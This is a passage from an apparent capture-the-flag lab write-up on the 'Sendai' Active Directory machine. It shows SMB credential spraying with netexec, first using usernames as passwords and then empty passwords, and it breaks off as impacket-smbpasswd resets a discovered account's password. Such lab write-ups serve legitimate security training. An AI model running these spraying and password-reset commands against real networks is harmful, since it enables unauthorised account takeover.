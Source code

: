 ```text
ca-operators
admsvc
mgtsvc$
support
```

### SMB Enumeration 2

Lets now check weather these account names are set to their passwords or not.

```bash
nxc smb sendai.vl -u usernames.txt -p usernames.txt --continue-on-success | grep "[+]"
```

![image.png](/assets/images/Sendai_VL/image%2012.png)

We are only getting the Guest account hits.

Lets try with the empty password strings.

```bash
nxc smb sendai.vl -u usernames.txt -p '' --continue-on-success
```

![image.png](/assets/images/Sendai_VL/image%2013.png)

Upon running this we can see that for the **elliot.yates and thomas.powell** the password must be set.

## Exploitation

### Password Reset

Lets reset both of the accounts password using **Impacket-smbpasswd.**

```bash
impacket-smbpasswd sendai.vl/'elliot.yates'@sendai.vl -newpass 'aashwin10!'
```
